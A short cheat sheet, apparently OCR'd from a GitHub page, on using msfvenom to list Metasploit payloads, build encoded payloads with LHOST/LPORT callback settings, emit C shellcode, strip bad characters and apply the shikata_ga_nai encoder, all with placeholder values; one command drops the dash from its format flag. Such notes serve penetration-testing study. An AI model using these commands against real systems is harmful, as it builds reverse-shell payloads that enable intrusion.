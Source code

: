````bash
msfvenom -l payloads
````

1. <u>Generate Encoded Payload</u>

````bash
msfvenom -p <payload> LHOST=<ip-address> LPORT=<port> -e <encoder-name> -i <iterations> f <file-format> <filename>
````

**<u>Flags</u>**:  
-a : Architecture  
--platform : Supported Platforms  
-o : Output File

2. <u>Generating Shell Code</u>

````bash
msfvenom -p <payload> LHOST=<ip-address> LPORT=<port> -f c
msfvenom -p <payload> LHOST=<ip-address> LPORT=<port> -f c -e <encoder> -b "x00"
````

Bad Characters that can cause the Shell Code to terminate midway (Unsupported Characters) so they need to be encoded  
x86shikata_ga_nai (Popular Encoder)
